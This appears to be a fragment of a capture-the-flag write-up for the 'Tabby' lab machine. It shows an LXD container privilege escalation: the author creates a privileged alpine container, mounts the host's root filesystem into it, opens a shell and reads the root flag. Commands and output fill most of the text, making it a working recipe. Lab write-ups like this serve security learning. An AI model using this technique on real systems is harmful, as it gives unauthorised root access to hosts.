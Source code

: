 Get error while create comtainer.

```
ash@tabby:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc
Error: No storage pool found. Please create a new storage pool
```

Search error with google and I have to init before create container

```
ash@tabby:/tmp$ lxd init
<snip>
```

Create container again and it work

```
ash@tabby:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc
ash@tabby:/tmp$ lxc list                  
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+
```

Mount container `privesc` with path `/mnt/root` to source from Tabby `/`. Go to check `/mnt/root` and I got file root.txt 

```
ash@tabby:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
ash@tabby:/tmp$ lxc start privesc
ash@tabby:/tmp$ lxc exec privesc /bin/sh
~ # cd /mnt/root
/mnt/root # ls
bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        swap.img    tmp         var
boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         sys         usr
/mnt/root # cat root/root.txt
ba2c48cc39dd91fdd4bc355dfa033265
```